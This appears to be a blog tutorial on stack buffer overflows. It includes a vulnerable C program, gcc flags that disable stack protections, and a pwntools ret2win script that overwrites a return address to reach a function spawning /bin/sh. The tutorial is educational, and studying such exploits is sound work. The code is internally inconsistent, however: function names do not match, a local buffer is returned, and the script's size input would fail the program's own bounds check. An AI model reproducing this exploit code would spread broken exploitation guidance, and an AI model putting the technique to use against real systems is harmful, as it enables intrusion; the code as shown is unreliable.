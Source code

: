 +++
author = "Emily Miller"
title = "How to: Basic buffer overflows without stack protections"
date = "2025-02-10"
description = """This is a simple guide on how to perform basic buffer
overflows, including an example exploit script."""
tags = [  ]
+++

Kind of starting a little basic, but what is a buffer overflow? Effectively,
when the program is expecting a certain amount of data to be written, and more
data than that gets written, *overflowing* the buffer. When done on the stack
(the most basic case), this is often called *stack smashing* (likely popularized
by the amazing stack canary message "**** stack smashing detected ****").

For instance, if our memory looks something like below:

`| Other function memory (variables, etc.) | Buffer | More function memory |
return address |`

What we can do to gain control flow is write through that Buffer and the
function memory and overwrite the return address. Often, this occurs in ret2win
style challenges, where we need to return to some win function.

Lets take the following code as our example:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
    char buffer[64];  // Vulnerable buffer size
    int size;

    printf("Enter the size of your input: ");
    scanf("%d", &size);  // User inputs the size for fgets

    if (size > 0 && size < sizeof(buffer)) {
        printf("Enter your input: ");
        fgets(buffer, size, stdin);
	    print_quotes(buffer);
    }
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

The example above looks a little convoluted, and I've done that because that's
what real buffer overflows look like. 99% of the time, these come from the
programmer writing some piece of code to do some small task (in this case
wrapping some string in quotes), and forgetting to account for issues that may
arise with how things interact with it. The more experienced among you may notice
a second vulnerability lurking in this program, but we'll cover that another
time.

Note if you want to follow at home, you will need to compile with stack
protections disabled, which can be done like `gcc -fno-stack-protector -z
noexecstack -no-pie -o vulnerable_program vulnerable_program.c` (Take a moment
to notice just how many things we're having to disable in order to make this
work --- this is something that rarely happens in modern programs, which is why
more advanced exploitation techniques are usually needed).
`

Here, we can use a very simple exploit to attack it:

```python
from pwn import *

# Hacker defined parameters
process_name = "./vulnerable_program"
offset = 64 # Placeholder, you'll need to find this using GDB
win_address = 0x123456 # You get this from GDB as well

# Calculate our payload
payload = b"A"*offset + p64(win_address) # <-- standard buffer overflow payload

# Exploit
p = process(process_name)
p.sendline(bytes(str(offset+8), "utf-8"))
p.sendline(payload)

# Reap the benefits
data = p.interactive()
```
Another important thing to keep in mind is those parameters need to be
determined by you, the attacker. There are ways of getting around this,
including automatic static analysis of the binary (some of which can be done in
`pwntools`, albeit with some reliability issues) and fuzzing, but that's a topic
to explore on your own as you gain more exploit development experience.

